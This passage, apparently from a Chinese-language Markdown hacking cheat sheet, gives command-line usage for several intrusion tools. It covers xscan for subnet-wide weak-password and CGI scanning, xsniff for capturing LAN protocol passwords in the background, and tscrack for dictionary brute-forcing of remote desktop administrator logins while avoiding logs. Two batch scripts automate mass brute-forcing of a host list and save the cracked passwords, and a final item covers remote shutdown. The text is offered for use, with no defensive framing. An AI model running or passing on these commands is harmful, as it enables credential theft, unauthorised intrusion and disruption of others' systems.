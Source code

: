 `xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o `检测`192.168.1.1-192.168.255.255`网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
`xscan -file hostlist.txt -port -cgi -t 200,5 -v -o `检测`hostlist.txt`文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
### 命令行方式嗅探器: xsniff.exe
#### 可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
##### 参数说明:
`-tcp` 输出TCP数据报
`-udp` 输出UDP数据报
`-icmp` 输出ICMP数据报
`-pass` 过滤密码信息
`-hide` 后台运行
`-host` 解析主机名
`-addr IP地址` 过滤IP地址
`-port 端口` 过滤端口
`-log 文件名` 将输出保存到文件
`-asc` 以ASCII形式输出
`-hex` 以16进制形式输出
##### 用法示例
`xsniff.exe -pass -hide -log pass.log `后台运行嗅探密码并将密码信息保存在pass.log文件中
`xsniff.exe -tcp -udp -asc -addr 192.168.1.1` 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
### 终端服务密码破解: tscrack.exe
#### 参数说明
`-h` 显示使用帮助
`-v` 显示版本信息
`-s` 在屏幕上打出解密能力
`-b` 密码错误时发出的声音
`-t` 同是发出多个连接（多线程）
`-N` Prevent System Log entries on targeted server
`-U` 卸载移除tscrack组件
`-f` 使用－f后面的密码
`-F` 间隔时间（频率）
`-l` 使用`－l`后面的用户名
`-w` 使用`－w`后面的密码字典
`-p` 使用`－p`后面的密码
`-D` 登录主页面
##### 用法示例
`tscrack 192.168.0.1 -l administrator -w pass.dic` 远程用密码字典文件暴破主机的`administrator`的登陆密码
`tscrack 192.168.0.1 -l administrator -p 123456` 用密码`123456`远程登陆`192.168.0.1`的`administrator`用户
```
　　@if not exist ipcscan.txt goto noscan
　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
　　nscan
　　@echo 3389.txt no find or scan faild
```
(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
3389.bat意思是：从3389.txt文件中取一个IP，接着运行`hack.bat`
```
　　@if not exist tscrack.exe goto noscan
　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt
　　:noscan
　　@echo tscrack.exe no find or scan faild
```
(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
### 其它
####  Shutdown.exe
　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）
　　`fpipe.exe` (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）